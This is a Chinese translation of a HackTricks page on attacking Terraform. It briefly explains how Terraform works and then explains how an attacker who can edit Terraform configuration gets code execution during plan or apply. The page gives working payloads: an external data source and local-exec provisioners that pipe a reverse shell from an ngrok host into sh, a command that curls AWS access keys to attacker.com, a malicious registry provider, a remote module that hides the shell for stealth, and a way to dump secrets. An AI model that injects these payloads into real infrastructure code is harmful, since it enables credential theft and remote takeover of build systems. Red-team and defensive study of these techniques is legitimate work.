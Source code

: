 # Terraform 安全性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform 是一个**基础设施即代码工具**，它允许您在可版本控制、重用和共享的人类可读配置文件中定义**云和本地资源**。然后，您可以使用一致的工作流程来配置和管理您的整个基础设施生命周期。Terraform 可以管理低级组件，如计算、存储和网络资源，以及高级组件，如 DNS 条目和 SaaS 功能。

### Terraform 如何工作？

Terraform 通过应用程序编程接口 (APIs) 在云平台和其他服务上创建和管理资源。提供者使 Terraform 能够与几乎任何具有可访问 API 的平台或服务一起工作。

![](<../.gitbook/assets/image (33).png>)

HashiCorp 和 Terraform 社区已经编写了**超过 1700 个提供者**来管理数千种不同类型的资源和服务，这个数字还在持续增长。您可以在 [Terraform Registry](https://registry.terraform.io/) 上找到所有公开可用的提供者，包括 Amazon Web Services (AWS)、Azure、Google Cloud Platform (GCP)、Kubernetes、Helm、GitHub、Splunk、DataDog 等等。

Terraform 的核心工作流程包括三个阶段：

* **编写：** 您定义资源，这些资源可能跨越多个云提供商和服务。例如，您可能会创建一个配置，以在带有安全组和负载均衡器的虚拟私有云 (VPC) 网络中的虚拟机上部署应用程序。
* **计划：** Terraform 创建一个执行计划，描述基于现有基础设施和您的配置将创建、更新或销毁的基础设施。
* **应用：** 经过批准后，Terraform 按照正确的顺序执行建议的操作，尊重任何资源依赖关系。例如，如果您更新了 VPC 的属性并更改了该 VPC 中的虚拟机数量，Terraform 将在扩展虚拟机之前重新创建 VPC。

![](<../.gitbook/assets/image (81).png>)

## Terraform 实验室

只需在您的计算机上安装 terraform。

这里有一个[指南](https://learn.hashicorp.com/tutorials/terraform/install-cli)，这里是[下载 terraform 的最佳方式](https://www.terraform.io/downloads)。

## Terraform 中的 RCE

Terraform **没有暴露网页或网络服务的平台** 我们可以枚举，因此，危害 terraform 的唯一方法是 **能够添加/修改 terraform 配置文件**。

然而，terraform 是一个**非常敏感的组件**，因为它将拥有**特权访问**不同位置，以便正常工作。

攻击者能够危害运行 terraform 的系统的主要方式是 **危害存储 terraform 配置的仓库**，因为在某个时刻它们将被**解释**。

实际上，有一些解决方案在创建 PR 后会**自动执行 terraform 计划/应用**，例如 **Atlantis**：

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

如果您能够危害一个 terraform 文件，当有人执行 `terraform plan` 或 `terraform apply` 时，您可以通过不同的方式执行 RCE。

### Terraform 计划

Terraform 计划是 terraform 中**最常用的命令**，开发人员/使用 terraform 的解决方案一直在调用它，因此**获得 RCE 的最简单方法**是确保您污染了一个将在 `terraform plan` 中执行任意命令的 terraform 配置文件。

#### 使用外部提供者

Terraform 提供了 [`external` 提供者](https://registry.terraform.io/providers/hashicorp/external/latest/docs)，它提供了一种在 Terraform 和外部程序之间进行接口的方法。您可以使用 `external` 数据源在 `plan` 期间运行任意代码。

在 terraform 配置文件中注入类似以下内容将在执行 `terraform plan` 时执行 rev shell：
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 使用自定义提供者

攻击者可以将[自定义提供者](https://learn.hashicorp.com/tutorials/terraform/provider-setup)发送到[Terraform Registry](https://registry.terraform.io/)，然后将其添加到功能分支中的Terraform代码中（[此处的示例](https://alex.kaskaso.li/post/terraform-plan-rce)）：
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
提供者在 `init` 中被下载，并且在执行 `plan` 时会运行恶意代码

您可以在 [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) 找到一个示例

#### 使用外部引用

上述两个选项都很有用，但不是非常隐蔽（第二个更隐蔽但比第一个复杂）。您可以通过遵循以下建议，以更**隐蔽的方式**执行此攻击：

* 与其直接将反向 shell 添加到 terraform 文件中，不如**加载包含反向 shell 的外部资源**：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
您可以在 [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules) 找到反向 shell 代码

* 在外部资源中，使用 **ref** 功能在仓库内部的一个分支中隐藏 **terraform 反向 shell 代码**，类似于：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform 应用

Terraform apply 将被执行以应用所有更改，您也可以通过注入[**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**的恶意 Terraform 文件来滥用它以获得 RCE。**\
您只需确保像下面这样的有效载荷最终出现在 `main.tf` 文件中：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
遵循**前一技巧的建议**，使用**外部引用**以更隐秘的方式执行此攻击。

## Secrets Dumps

您可以通过在 terraform 文件中添加如下内容，运行 `terraform apply` 来**转储 terraform 使用的密钥值**：
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 审计工具

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec 使用静态分析你的 terraform 代码来发现潜在的配置错误。
* [**terascan**](https://github.com/tenable/terrascan): Terrascan 是一个用于基础设施即代码的静态代码分析器。

## 参考资料

* [Atlantis 安全](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

其他支持 HackTricks 的方式：

* 如果你想在 HackTricks 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
